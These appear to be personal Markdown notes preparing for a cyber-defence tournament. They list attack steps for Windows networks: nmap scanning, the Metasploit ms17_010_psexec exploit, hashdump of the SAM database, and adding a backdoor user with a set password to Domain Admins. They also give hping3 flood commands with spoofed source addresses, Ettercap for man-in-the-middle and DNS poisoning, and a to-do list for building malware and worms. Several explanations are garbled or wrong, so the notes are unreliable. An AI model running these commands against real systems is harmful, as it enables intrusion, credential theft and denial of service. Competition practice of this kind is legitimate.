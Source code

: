 # DISCOVER THE IP ADDRESS OF THE SERVER THAT YOU ARE ATTACKING 

-> RUN NETDISCOVER AND THEN BUILD THE COMMAND TO SCAN YOUR NETWORK `netdiscover -i eth0`

1. You do this scan when you are inside the building Active Directory - This is done when you are inside the entire network

`nmap -sS -sV -A 10.1.10.2` -> Stealth Scan, service Version, A=Operating System


2. Social Engineering -> Is the easiest way to gather information

3. Use Metasploit and Google the OS

`use exploit/windows/smb/ms17_010_psexec` : Google the types of windows server2012 then it will work. Research the OS and find out how to get them to work

3. `exploit` or `shell`

4. Type `shell`to get the code to successfully compile and run

# PRIVILEGE ESCALATION : LEARN HOW TO USE THE `net` command  and other methods of Privilege Escalation

1.  `hashdump` : To show all the contents of the SAM DB to develop and improve the application

2. `screenshare` : To share

3. `shell` : to get access to the windows system

4. `net user` : Get a list of all the users registered onto the system

5. `net user tino admin@123! /add` : Add a new user into the windows system and remember that only admin users can log into the server

6. `net user ` : You will be able to see the changes that are to be made

7. `net group` : This will show you all the listed local groups

8. `net user Administrator` : Have a look at all the administrator groups

9. `net group "Domain Admins" tino /add` : Add the user into the domain

10. Create groups once you are 

**NB** Switch to a higher smb version & Perhaps change the port number to a different account and it is only recommended if it is not having a large impact on the system

# HACK INTO A WEB SERVER : `Evil Limiter`

# HACK INTO A WINDOWS 7 BUT USE A DIFFERENT PRIVILEGE ESCALATION METHOD

## HPING3

1. `hping3 -p port_number` : Bringing a specific port down

2. `hping3 -S -P -U --flood -V --rand-source target_ip` : Attack with random ip addresses

3. `hping3 `

## ETTERCAP -G :  MITM, DNS POISONING, SNIFFING

1. `Ettercap -G` : Start, Select the eth0, Click the 


## BEST WAYS TO DEFEND THE SYSTEM

1. WHITELIST ON WINDOWS

2. SETUP FIREWALL RULES

3. CHANGE THE IP ADDRESSES FOR SPECIFIC PORTS

4. AZUL SIEM - WAZUH SETUP : TO PREVENT AND WATCH THE SYSTEM

5. CHANGE DEFAULT NAMES

--------------------------------------------------------------------------------------------

# TOURNAMENT PREPARATION

1. Servers running on the System ✅ 

2. How to configure the services running on the server, 
	FTP, 
	WEB SERVER, ✅ 
	EMAIL SERVER, 

3. How to change the port numbers ✅ 

4. Throttling, Setup a firewall for the FTP and Web Server to configure

5. How to setup access for specific services on the servers

6. Prevent Banner Grabbing & File Leakages

7. 

----------------------------------------------------------------------------------------
1. How to build malware 

2. How to build a worm 

3. How to build a network scanner

4. How to encrypt files





























